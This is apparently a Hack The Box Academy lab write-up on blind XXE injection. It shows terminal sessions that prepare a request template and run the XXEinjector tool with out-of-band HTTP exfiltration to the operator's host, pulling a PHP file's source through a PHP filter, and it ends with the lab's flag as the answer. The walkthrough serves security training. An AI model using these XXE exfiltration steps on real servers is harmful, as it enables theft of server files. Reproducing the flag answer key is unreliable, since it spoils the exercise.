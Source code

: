 ```
┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~]
└──╼ [★]$ echo 'PD9waHAgJGZsYWcgPSAiSFRCezFfZDBuN19uMzNkXzB1N3B1N183MF8zeGYxbDdyNDczX2Q0NzR9IjsgPz4K' | base64 -d

<?php $flag = "HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}"; ?>
```

```
┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~]
└──╼ [★]$ vim XXEinjector/xxe.req

POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.234.170
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.129.234.170/
Content-Type: text/plain;charset=UTF-8
Content-Length: 261
Origin: http://10.129.234.170
DNT: 1
Connection: keep-alive
Sec-GPC: 1
Priority: u=0

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

```
┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~/XXEinjector]
└──╼ [★]$ ruby XXEinjector.rb --host=10.10.15.155 --httpport=8000 --file=xxe.req --path=/327a6c4304ad5938eaf0efb6cc3e53dc.php --oob=http --phpfilter

[SNIP]

[+] Sending request with malicious XML.
[+] Responding with XML for: /327a6c4304ad5938eaf0efb6cc3e53dc.php
[+] Retrieved data:

┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~/XXEinjector]
└──╼ [★]$ cat Logs/10.129.234.170/327a6c4304ad5938eaf0efb6cc3e53dc.php.log 

<?php $flag = "HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}"; ?>
```

**Answer**

```
HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}
```

---
